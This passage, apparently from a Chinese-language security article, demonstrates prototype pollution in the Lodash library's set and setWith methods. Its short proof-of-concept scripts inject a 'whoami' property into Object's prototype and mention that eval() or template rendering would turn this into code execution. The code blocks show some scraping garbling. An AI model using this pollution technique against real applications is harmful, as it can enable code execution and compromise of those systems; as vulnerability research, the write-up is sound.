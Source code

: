
在使用 Lodash.set 方法时，如果没有对传入的参数进行过滤，则可能会造成原型链污染。下面给出一个验证漏洞的 POC：

```
var lodash= require('lodash');

var object_1 = `{` 'a': [`{` 'b': `{` 'c': 3 `}` `}`] `}`;
var object_2 = `{``}`

console.log(object_1.whoami);
//lodash.set(object_2, 'object_2["__proto__"]["whoami"]', 'Vulnerable');
lodash.set(object_2, '__proto__.["whoami"]', 'Vulnerable');
console.log(object_1.whoami);
```

我们在 `lodash.set(object_2, '__proto__.["whoami"]', 'Vulnerable');` 处下断点，单步结束后可以看到：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0159d0331f94becfc3.png)

在类型为 Array 的 object**1 对象的 `<em>_proto**</em>`属性中出现了一个`whoami`属性，值为`Vulnerable`，污染成功。

### <a class="reference-link" name="lodash.setWith%20%E6%96%B9%E6%B3%95%E9%80%A0%E6%88%90%E7%9A%84%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93"></a>lodash.setWith 方法造成的原型链污染

Lodash.setWith 方法类似 `set` 方法。但是它还会接受一个 `customizer`，用来调用并决定如何设置对象路径的值。 如果 `customizer` 返回 `undefined` 将会有它的处理方法代替。

```
setWith(object, path, value, [customizer])
```

该方法与 `set` 方法一样可以进行原型链污染，下面给出一个验证漏洞的 POC：

```
var lodash= require('lodash');

var object_1 = `{` 'a': [`{` 'b': `{` 'c': 3 `}` `}`] `}`;
var object_2 = `{``}`

console.log(object_1.whoami);
//lodash.setWith(object_2, 'object_2["__proto__"]["whoami"]', 'Vulnerable');
lodash.setWith(object_2, '__proto__.["whoami"]', 'Vulnerable');
console.log(object_1.whoami);
```

我们在 `lodash.setWith(object_2, '__proto__.["whoami"]', 'Vulnerable');` 处下断点，单步结束后可以看到：

[![](https://p1.ssl.qhimg.com/t0135857e9e63119718.png)](https://p1.ssl.qhimg.com/t0135857e9e63119718.png)

在类型为 Array 的 object**1 对象的 `<em>_proto**</em>`属性中出现了一个`whoami`属性，值为`Vulnerable`，污染成功。

至此，我们已经对 lodash 模块中的几个原型链污染做了验证，可以成功污染原型中的属性。但如果要进行代码执行，则还需要配合 `eval()` 方法的执行或模板引擎的渲染。


